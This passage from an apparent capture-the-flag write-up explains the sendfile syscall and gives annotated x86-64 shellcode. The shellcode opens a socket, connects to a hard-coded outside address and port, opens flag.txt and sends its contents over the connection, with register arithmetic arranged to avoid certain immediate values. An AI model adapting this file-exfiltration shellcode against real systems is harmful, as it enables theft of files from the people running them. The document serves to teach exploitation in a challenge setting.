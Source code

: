 sendfile takes four arguments: `int out_fd` (the file descriptor to write to), `int in_fd` (the file descriptor to read from), `off_t *offset` (a pointer to a file offset to start reading from), and `size_t count` (how many bytes to read and write). For us, `out_fd` is our socket which has file descriptor 0. `in_fd` will probably be 1 since it's the next open descriptor. We can't set `esi` to an immediate, but we can can move `eax` into `esi`, and `eax` contains the return value of the `open` syscall, which returns the file descriptor of `flag.txt` which is exactly what we want.

If `offset` is set to NULL, sendfile starts reading from the first byte, so we'll set it to 0. `count` depends on how long the flag is. We set it at 10 at first, and increased it until we got the entire flag sent over. Finally, the syscall number for sendfile is 40.

In summary, here are the arguments we must set for our four syscalls:

| Syscall  | `eax` | `edi`    | `esi`              | `edx`  | `r10d` |
| -------- | ----- | -------- | ------------------ | -----  | ------ |
| socket   | 41    | 2        | 1                  | 0      |        |
| connect  | 42    | 0        | 0x24007e1244440002 | 16     |        |
| open     | 2     | 0x400cb8 | 0                  | 0      |        |
| sendfile | 40    | 0        | eax = 1            | 0      | 128    |

Here is our filled in, annotated shellcode:

```assembly
b8 29 00 00 00          mov    eax,  0x29  // 0x29 = 41
bf d9 ff ff ff          mov    edi,  0xffffffd9
be 03 00 00 00          mov    esi,  0x3
ba 00 00 00 00          mov    edx,  0x0
01 c7                   add    edi,  eax   // 0xffffffd9 + 0x29 = 2
29 fe                   sub    esi,  edi   // 0x3 - 1 = 1
21 f2                   and    edx,  esi   // 0 & 1 = 0
0f 05                   syscall
48 b8 02 00 44 44 12    movabs rax,  0x24007e1244440002
7e 00 24
50                      push   rax
b8 2a 00 00 00          mov    eax,  0x2a  // 0x2a = 42
ba 10 00 00 00          mov    edx,  0x10  // 0x10 = 16
bf 00 00 00 00          mov    edi,  0x0
48 89 e6                mov    rsi,  rsp   // rsi points to 02004444127e0024
0f 05                   syscall            // sets eax to 0
be 00 00 00 00          mov    esi,  0x0
bf b8 0c 40 00          mov    edi,  0x400cb8
ba 00 00 00 00          mov    edx,  0x0
83 c0 02                add    eax,  0x2   // 0 + 2 = 2
0f 05                   syscall
89 c6                   mov    esi,  eax   // set esi to 1
b8 28 00 00 00          mov    eax,  0x28  // 0x28 = 40
bf 00 00 00 00          mov    edi,  0x0
41 ba 80 00 00 00       mov    r10d, 0x80  // 0x80 = 128
0f 05                   syscall
58                      pop    rax
```

